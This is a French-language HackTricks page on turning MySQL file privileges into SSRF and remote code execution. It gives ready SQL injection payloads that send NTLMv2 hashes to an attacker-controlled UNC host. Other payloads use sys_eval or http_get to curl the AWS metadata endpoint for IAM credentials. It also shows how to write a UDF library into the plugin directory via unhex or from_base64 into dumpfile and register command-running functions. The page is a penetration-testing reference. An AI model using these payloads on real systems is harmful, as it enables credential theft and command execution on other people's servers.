 # MySQL File priv à SSRF/RCE

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PRs aux repos github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML à SSRF

Chaque article sur l'exfiltration de données Out of Band SQL utilisera la fonction de chaîne `LOAD_FILE()` pour effectuer une requête réseau. La fonction elle-même a ses propres limitations basées sur le système d'exploitation sur lequel elle est exécutée et les paramètres avec lesquels la base de données a été démarrée.

Par exemple, si la variable globale `secure_file_priv` n'était pas définie, [la valeur par défaut est définie sur `/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html), ce qui signifie que vous ne pouvez utiliser des fonctions comme `LOAD_FILE('nomdefichier')` ou `LOAD DATA [LOCAL] INFILE 'nomdefichier' INTO TABLE nomdetable` que pour lire des fichiers du répertoire `/var/lib/mysql-files/`. Pour pouvoir effectuer des lectures sur des fichiers en dehors de ce répertoire, l'option `secure_file_priv` doit être définie sur `""`, ce qui ne peut être fait qu'en mettant à jour le fichier de configuration de la base de données ou en passant le paramètre de démarrage `--secure_file_priv=""` au service de base de données.

Néanmoins, dans les circonstances où `secure_file_priv` est défini sur `""`, nous devrions être capables de lire d'autres fichiers sur le système, en supposant que les permissions de lecture de fichiers et `file_priv` sont définis sur `Y` dans `mysql.user` pour l'utilisateur de la base de données actuelle. Cependant, la possibilité d'utiliser ces fonctions pour effectuer des appels réseau dépend beaucoup du système d'exploitation. Comme ces fonctions sont conçues uniquement pour lire des fichiers, les seuls appels réseau pertinents qui peuvent être effectués sont vers des chemins UNC sur des hôtes Windows, car [l'API Windows `CreateFileA` qui est appelée lors de l'accès à un fichier comprend les conventions de nommage UNC](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file).

Donc, si votre base de données cible fonctionne sur une machine Windows, la requête d'injection `x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //` [résulterait en la machine Windows envoyant des hachages NTLMv2 dans une tentative d'authentification avec le serveur contrôlé par l'attaquant `\\attackerserver.example.com`](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html).

Cette falsification de requête côté serveur, bien qu'utile, est limitée au seul port TCP 445. Vous ne pouvez pas contrôler le numéro de port, mais pouvez lire des informations à partir de partages configurés avec des privilèges de lecture complets. De plus, comme cela a été démontré avec des recherches plus anciennes, vous pouvez utiliser cette capacité limitée de SSRF pour voler des hachages et les relayer pour obtenir des shells, donc c'est définitivement utile.

### Fonctions Définies par l'Utilisateur pour RCE

Une autre technique intéressante avec les bases de données MySQL est la capacité d'utiliser des Fonctions Définies par l'Utilisateur (UDF) présentes dans des fichiers de bibliothèques externes qui, si présents dans des emplacements spécifiques ou dans le $PATH du système, peuvent alors être accessibles depuis MySQL.

Vous pourriez utiliser une Injection SQL pour **écrire une bibliothèque (`.so` ou `.dll`** selon que vous êtes sur Linux ou Windows), contenant une Fonction Définie par l'Utilisateur qui peut effectuer des requêtes réseau/HTTP, qui peut ensuite être invoquée par des requêtes supplémentaires.

Cela a son propre ensemble de restrictions cependant. Selon la version de MySQL, que vous pouvez identifier avec `select @@version`, le répertoire d'où les plugins peuvent être chargés est restreint. MySQL en dessous de `v5.0.67` permettait de charger des fichiers de bibliothèque à partir du chemin système si la variable `plugin_dir` n'était pas définie. Cela a changé maintenant et les versions plus récentes ont la variable **`plugin_dir`** définie sur quelque chose comme `/usr/lib/mysql/plugin/`, qui est généralement possédé par root.

En gros **pour que vous puissiez charger une bibliothèque personnalisée dans MySQL et appeler une fonction de la bibliothèque chargée via Injection SQL, vous auriez besoin** :

* de la capacité à **écrire à l'emplacement** spécifié dans **`@@plugin_dir`** via Injection SQL
* **`file_priv`** défini sur **`Y`** dans `mysql.user` pour l'utilisateur de la base de données actuelle
* **`secure_file_priv`** défini sur **`""`** afin que vous puissiez lire les octets bruts de la bibliothèque à partir d'un emplacement arbitraire comme le réseau ou un répertoire de téléchargements de fichiers dans une application web.

En supposant que les conditions ci-dessus soient remplies, vous pouvez utiliser **l'approche classique de transférer la** [**bibliothèque UDF MySQL populaire `lib_mysqludf_sys`**](https://github.com/mysqludf/lib\_mysqludf\_sys) **au serveur de base de données**. Vous pourriez alors être capable de faire des requêtes de commandes du système d'exploitation comme `cURL` ou `powershell wget` pour effectuer du SSRF en utilisant la syntaxe

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Il y a beaucoup d'autres fonctions déclarées dans cette bibliothèque, une analyse de celles-ci peut être vue [ici](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/). Si vous êtes paresseux comme moi, vous pouvez obtenir une copie de cette bibliothèque UDF, pour le système d'exploitation cible, à partir d'une installation metasploit depuis le répertoire `/usr/share/metasploit-framework/data/exploits/mysql/` et commencer.

Alternativement, des bibliothèques UDF ont été créées pour fournir spécifiquement à la base de données la capacité de faire des requêtes HTTP. Vous pouvez utiliser [MySQL User-defined function (UDF) pour HTTP GET/POST](https://github.com/y-ken/mysql-udf-http) pour que la base de données effectue des requêtes HTTP, en utilisant la syntaxe suivante

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Vous pourriez également [créer votre propre UDF et l'utiliser pour l'exploitation postérieure également.](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)

Dans tous les cas, vous devez transférer la bibliothèque au serveur de base de données. Vous pouvez le faire de plusieurs manières

1. Utilisez la fonction de chaîne MySQL `hex()` ou quelque chose comme `xxd -p filename.so | tr -d '\n'` pour convertir le contenu de la bibliothèque en format hexadécimal, puis le déverser dans le répertoire `@@plugin_dir` en utilisant `x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`
2. Alternativement, convertissez le contenu de `filename.so` en base64 et utilisez `x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`

Si le `@@plugin_dir` n'est pas inscriptible, alors vous n'avez pas de chance si la version est supérieure à `v5.0.67`. Sinon, écrivez à un emplacement différent qui est dans le chemin et chargez la bibliothèque UDF à partir de là en utilisant

* pour la bibliothèque `lib_mysqludf_sys` - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* pour la bibliothèque `mysql-udf-http` - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`


Pour automatiser cela, vous pouvez utiliser SQLMap qui prend en charge [l'utilisation de UDF personnalisés via l'option `--udf-inject`](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Pour les Injections SQL Aveugles, vous pourriez rediriger la sortie des fonctions UDF vers une table temporaire, puis lire les données de là ou utiliser [une requête DNS introduite dans une commande `sys_eval` ou `sys_exec` curl](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration).

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PRs aux repos github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
